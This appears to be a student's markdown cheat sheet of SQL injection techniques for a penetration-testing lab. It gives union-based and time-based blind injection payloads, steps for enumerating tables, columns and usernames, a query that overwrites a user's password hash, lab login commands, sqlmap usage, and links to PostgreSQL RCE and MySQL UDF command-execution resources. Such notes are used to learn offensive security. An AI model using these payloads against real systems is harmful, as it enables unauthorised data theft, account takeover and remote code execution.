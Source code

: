 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)

## Postgres RCE
- https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful

# UDF (user definded function) command execution
- Check version if vuln this | Can work with SQLi 
- https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-udf-command-execution ![alt text](image-2.png)